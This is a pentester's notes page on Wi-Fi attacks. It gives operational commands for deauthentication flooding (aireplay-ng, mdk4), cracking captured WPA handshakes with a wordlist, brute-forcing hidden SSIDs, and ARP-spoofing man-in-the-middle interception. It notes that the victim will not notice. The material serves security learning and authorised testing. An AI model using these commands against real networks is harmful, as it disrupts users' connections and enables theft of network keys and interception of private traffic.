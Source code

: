 ```yaml
---
title: Pentesting Wireless 
author: ioritz_elisa 
date: 2023-07-27 0:0:00 +0000 
categories: [Notes, Pentesting Wireless] 
tags: [WiFi Interfaces, Monitor Mode, Capture Traffic, Deauthentication, Handshake, Hidden Networks, ARP Spoofing] 
pin: true
---
```



## Check Available Interfaces Wi-Fi
 
> Check the name of the available Wi-Fi interfaces by running:

```
ip link show
```

or

```
iwconfig
```



## Monitor Mode

Monitor mode in Wi-Fi pentesting is a special configuration of a wireless network adapter that allows **capturing and analyzing all network traffic** on a specific channel without being associated with any particular Wi-Fi network. It is valuable for security analysis and auditing nearby wireless networks.

> Set one of the Wi-Fi interface to monitor mode:

```
airmon-ng start <interface>
````  

or

```
iwconfig <interface> mode monitor
```



## Capture Traffic

> Capture all traffic and list AP (Access Point) and clients:

````
airodump-ng <interfaceInModeMonitor> --band abg
`````

* The parameter "--band abg" is used to scan 2.4Ghz and 5Ghz.

The parameter "-c" is used to filter by channel or channels (for example 1 and 44). Example:

````
airodump-ng wlan0mon -c1,44
`````



## Deauthentication

Deauthentication in Wi-Fi pentesting is a technique used to forcefully disconnect a client device from a wireless network. It involves sending deauthentication frames to the target device, making it disassociate from the network and prompting it to reauthenticate.

It is useful for **forcing clients to reauthenticate and obtain the handshake**.

Disassociation packets are another type of management frame that is used to disconnect a node (meaning any device like a laptop or cell phone) from a nearby access point. The difference between deauthentication and disassociation frames is primarily the way they are used.

An AP looking to disconnect a rogue device would send a deauthentication packet to inform the device it has been disconnected from the network, whereas a disassociation packet is used to disconnect any nodes when the AP is powering down, rebooting, or leaving the area.

### Interesting tools

> Aireplay-ng:

Syntax:

```
aireplay-ng --deauth [NUM_PACKETS] -a [AP_MAC_ADDRESS] <interfaceInModeMonitor>
```

It can be done by other way.

Example:

```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan0
```

* The parameter "-0" means deauthentication.
* The next parameter is a number. 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously.
* "-a 00:14:6C:7E:40:80" is the MAC address of the access point.
* "-c 00:0F:B5:34:30:30" is the MAC address of the client to deauthenticate; if this is omitted then broadcast deauthentication is sent (not always work).
* "wlan0" is the interface name.



## Crack Handshake

Once the handshake is captured you can attempt to crack it.

### Interesting Tools

> aircrack-ng

Example:

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk.cap
```

* The option "-b" is used to specify the MAC address of the access point (AP) whose key will be attempted to crack.

* This represents the packet capture file. The command will attempt to use the file '/tmp/psk.cap' to perform the cracking attack.


> mdk4

Example:

```
mdk4 wlan0mon d -c 5 -b <victim_client_mac.txt> -E <WifiName> -B EF:60:69:D7:69:2F
```

You can attack all the clients in the network:

```
mdk4 wlan0mon d -E WifiName
`````

Options:
* "-c": is the channel.
* "-b": this file contains the MAC address of the device to eliminate.
* "-E": is the name of the wifi.
* "-B BSSID": is the BSSID of the AP.



## Hidden networks

Hidden networks, also known as closed networks, do not broadcast their Wi-Fi network name (SSID). To connect, clients need to know the SSID beforehand, but this provides only minimal security, as skilled attackers can still discover the hidden SSID through various techniques. Other security measures are necessary for effective protection.

If there are client, we can wait to a client connection to get the ESSID, but if there isn't we can brute force probes to get the name with mdk4.

Example:

````
mdk4 wlan0mon p -t F0:9F:C2:71:22:11 -f ~/rockyou.txt
````

More info: https://github.com/koutto/pi-pwnbox-rogueap/wiki



## ARP spoofing

It is interesting for MITM (Man In The Middle) attacks.

ARP spoofing is sending spoofed ARP messages to the Ethernet. Usually the purpose is to associate the attacker's MAC address with the IP address of another node, such as the default gateway.

Enable port forwarding:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Command to view the ARP table:

```
arp -a
```

Install arpspoof:

```
sudo apt-get install dsniff
```

The following two commands must be executed at the same time:

```
arpspoof -i <WiFiInterface> -t <IProuter> <IPtarget>
```

```
arpspoof -i <WiFiInterface> -t <IPtarget> <IProuter>
```

If the ARP table is queried again, now the MAC of the attacker and of the router must be the same.

The victim will not realize that we are intercepting the requests between him and the router because we are redirecting the traffic.

To visualize the requests and responses, run a sniffer such as tcpdump or wireshark.




